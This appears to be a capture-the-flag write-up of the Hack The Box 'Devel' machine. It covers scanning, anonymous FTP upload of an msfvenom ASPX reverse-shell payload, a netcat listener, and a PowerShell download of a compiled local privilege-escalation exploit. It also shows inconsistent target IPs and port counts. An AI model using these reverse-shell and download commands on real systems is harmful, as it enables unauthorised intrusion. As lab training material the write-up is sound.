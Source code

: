 Devel

# Reconnaissance 

### ****Scanning****

- **Initial Scan**
	- Command 
	`sudo nmap -sC -sV -T4 -O -oA devel 10.10.10.5`
		- `-sC`: run default nmap scripts
		- `-T4`: Set timing template (higher is faster)
		- `-O`: Detect OS
		- `sV`: detect service version
		- `-oA`: Output all files formats to name "lame"

Running the initial nmap scan showed 9 open ports on the target machine

- **Port 21**: Microsoft ftpd
- **Port 80**: Microsoft IIS httpd 7.5

![initial_scan](https://github.com/benoitbeaulieu-ls/htb_devel/blob/master/Screenshots/inital_scan.png)

- **Full Scan**
Now let run a scan on all port to see if there are any other entry points.

	- Command 
	`sudo nmap -sC -sV -T4 -O -p- -oA devel_full 10.10.10.40`
		-	`-p-`: Scan all ports
		

We get the same results from the full scan.
[full scan]

- **UDP Scan**
Now to be extra thorough I'm going to run a UDP scan.

	- Command
	`sudo nmap -sU -T4 -O -p- -oA devel_udp 10.10.10.40`
		- `-sU`: UDP scan

[udp_scan.png]

--------------------------------------------
--------------------------------------------
# Enumeration

We saw in our initial scan that the server allows annonymous login on the FTP server. Meaning that anyone can login.

`ftp 10.10.10.5`

[ftp_login.png]

We can even list the files in the current directory.

[ftp_directories.png]

Let's see if we visit these files on the browser

[browser.png]

This leads me to believe that the ftp server is uploading files to the root directory of the web server.

I created a test file to see if I was able to upload it to the server and it was succesful.

[test_file,png]

We should be able to get a shell with this knowledge.

# Exploitation

We need to generate a payload in order to upload it to the FTP server and execute it in the browser to get a reverse shell. Since this is a windows web server we're going to need to generate our payload as a .aspx file.

`msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.15 LPORT=4444 -o devel_shell.aspx `

Now lets put the shell on the server

[put_shell.png]

Now lets set up out listener

`nc -lvnp 4444`

Now we can execute the file in the browser. We got our shell!

[reverse_shell.png]

# Priviledge Escalation

We have our shell as the user "iis apppool\web". We don't have much priviledge with this account so we're going to need to elevate our priviledges.

[user_shell.png]

Let's get some more information about this device.

`systeminfo`

The info shows that this machine is on an old version of windows and it have not been updated

Let's Google for exploits on the windows version "Microsoft Windows 7 build 7600"

We found one on exploit db so we should be able to find it in searchploit by searching the vulnerability name.

[priv_esc.png]

`searchsploit -m 40564`

Now that we have it copied to our directory we need to compile it with the instructions below

[compile_instructions.png]

`sudo apt install mingw-w64 `

Now we can compile it using the command listed in the exploit.

`i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32`

Now lets set up a quick http server to transfer the file to the machine 

`python -m SimpleHTTPServer 8080`

Since there is no netcat installed on the machine, let use some powershell to grba the file.

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.15:8080/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"`

After running that we finally hve the exe file on our target machine 

[exe_ontarget.png]

After executing the file we have admin priviledges!

[admin_priv.png]

Navigating to babis desktop directory we got the user flag

[user_flag.png]

Navigating to the administrators desktop we got the root directory.

[root_flag.png]
